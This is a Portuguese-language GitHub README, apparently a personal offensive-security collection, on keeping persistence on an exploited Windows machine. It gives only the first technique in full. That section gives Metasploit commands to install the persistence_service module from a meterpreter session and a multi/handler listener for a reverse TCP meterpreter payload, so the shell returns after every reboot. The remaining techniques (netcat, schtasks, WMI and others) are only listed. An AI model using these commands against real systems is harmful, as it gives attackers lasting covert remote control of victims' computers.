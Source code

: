 # [Awesome Windows Persistence](https://github.com/Stuuxx/awesome-persistence)

**Técnicas e táticas para a manutenção de persistência em um alvo explorado.**

Estarei constantemente atualizando este repositório com novas técnicas!

## Sumário
*[Técnicas e Táticas](#tecnicas)
-     *[Persistence Service](#persistence-service)
-     *[Persistence Registry](#persistence-registry)
-     *[Netcat](#persistence-netcat)
-     *[RDP](#persistence-rdp)
-     *[Schtasks](#schtasks)
-     *[Schtasks-Log Events](#schtasks-log-events)
-     *[WMIC](#persistence-wmic)
-     *[Wmi-Persistence](#persistence-wmi)
-     *[SharPersist](#sharpersist)

## Técnicas e Táticas
###Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
 
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**

```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)

- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;

```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)

**Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.**

Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)



## Ficou com alguma dúvida?

Siga-me nas redes sociais para acompanhar meus conteúdos relacionados a Cyber Security e Offensive Hacking ou para tirar dúvidas relacionadas aos artigos!
 - LinkedIn : [Eduardo Maragno](https://www.facebook.com/HackwithGithub)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux]()
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
